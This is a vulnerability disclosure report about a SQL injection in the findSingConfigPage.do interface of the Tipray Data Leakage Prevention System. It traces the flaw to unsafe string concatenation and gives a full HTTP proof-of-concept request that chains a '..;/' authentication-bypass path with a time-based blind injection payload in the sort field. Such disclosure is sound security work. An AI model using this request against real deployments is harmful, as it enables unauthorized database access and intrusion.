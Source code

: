 # SQL Injection Vulnerability in the findSingConfigPage.do Interface of Tipray Data Leakage Prevention System

## Basic Overview
We have already learned about some basic information of the system developer and the reasons for authentication bypass in https://github.com/FightingLzn9/vul/blob/main/%E5%A4%A9%E9%94%90%E6%95%B0%E6%8D%AE%E6%B3%84%E9%9C%B2%E9%98%B2%E6%8A%A4%E7%B3%BB%E7%BB%9F-1.md.

To reduce your review burden, we will not repeat the details in this report.

## Vulnerability Analysis
We found a sink point in `com.trwfe.controller.ThirdSystemConfigController#findRolePage`.

As described in our first report, the `PageVo` class is insecure and its parameters are controllable by external users.

<img width="1276" height="380" alt="image" src="https://github.com/user-attachments/assets/b5d57305-df78-4a95-a985-30be7ef3f612" />

Let’s trace the `findAllSingConfigPage` method here.

<img width="1856" height="965" alt="image" src="https://github.com/user-attachments/assets/b9616b32-6180-4b32-a830-b472292844ea" />

Continue to trace down to the mapper layer.

<img width="1965" height="966" alt="image" src="https://github.com/user-attachments/assets/11e85aab-2c11-4afa-b8ad-5c9345746f65" />

Direct concatenation leads to injection. The following POC can be constructed:
```
POST http://ip/trwfe/login.jsp/..;/thirdSystemConfig/findSingConfigPage.do HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 15_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/18.3 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: JSESSIONID=BBE157F1DBA868496A6CB76724EA3D28
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 51

sort=1+AND+(SELECT+8234+FROM+(SELECT+SLEEP(4))test)
```

<img width="1879" height="803" alt="image" src="https://github.com/user-attachments/assets/11be57c9-fe72-4c7e-b45b-10812fbb5b13" />

The time-delay injection was successfully triggered. Therefore, the `findSingConfigPage.do` interface has an SQL injection vulnerability.

Thank you for your review. Wish you a pleasant day!
